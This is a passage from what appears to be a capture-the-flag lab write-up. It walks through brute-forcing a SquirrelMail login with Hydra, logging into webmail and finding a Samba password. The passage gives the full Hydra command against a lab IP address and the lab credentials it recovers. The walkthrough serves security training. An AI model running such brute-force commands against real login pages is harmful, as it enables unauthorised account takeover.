 This directory contains a login, we can try brute forcing the login page assuming the username would be `milesdyson` and the password to be inside of `log1.txt`.

```ad-hint

#### Hydra Brute Force
---

For the brute force processs, i'll be using hydra, this is the following command:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121134929.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121134940.png)

This is a `POST` request, with the parameters: `login_username`, `secretkey`, so, the hydra command would be the following:

`hydra -l milesdyson -P log1.txt IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20`

For this machine I used:

`hydra -l milesdyson -P log1.txt 10.10.183.201 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20`

#### Output
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121135155.png)

We found our `milesdyson` username password, credentials would be the following:

`milesdyson`: `cyborg007haloterminator`


```

# RECONNAISSANCE
---

Once we got our credentials, let's log in and perform the reconnaissance of the machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121135455.png)

Once we are inside the page, we found that this is hosted on a `webmail.php` section, we got three emails, most jazzy one would be the Samba Password reset, let's look at it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121135646.png)

So we got a password, `)s{A&2Z=F^n_E.B` this is `milesdyson` samba password, let's log into SMB using those credentials
